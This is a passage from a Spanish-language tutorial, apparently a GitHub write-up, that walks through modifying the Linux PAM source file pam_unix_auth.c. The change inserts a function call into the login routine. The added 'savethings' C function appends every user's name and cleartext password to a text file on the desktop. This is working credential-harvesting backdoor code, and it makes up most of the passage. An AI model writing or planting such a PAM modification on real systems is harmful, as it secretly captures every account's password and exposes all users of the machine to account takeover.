 Después debemos modificar el archivo `modules/pam_unix/pam_unix_auth.c` en mi caso voy  a crear un archivo en escritorio de mi usuario con las credenciales de toda la maquina en claro, para ello creare una funcion y añadire la llamada en el proceso de logueo
<br>

 ```c
         D(("user=%s, password=[%s]", name, p));
        retval = _unix_verify_password(pamh, name, p, ctrl);
        //llamada a la funcion creada
        savethings("/home/RUTA/Escritorio/pass.txt",name, p);
        name = p = NULL;


        AUTH_RETURN;
}


/*
Esta funcion guardará las credenciales en un archivo el archivo
 */

void savethings (const char* filename, const char* nombre, const char* passworr) {
    // Abre el archivo para escritura
    FILE *file = fopen(filename, "a");

    // Verifica si el archivo se abrió correctamente
    if (file == NULL) {
        perror("Error al abrir el archivo");
        return;
    }

    // Escribe el valor de la variable en el archivo
    fprintf(file, "Usuario: %s\nPassowrd:%s\n", nombre,passworr);

    // Cierra el archivo
    fclose(file);
}
```

<p align="center">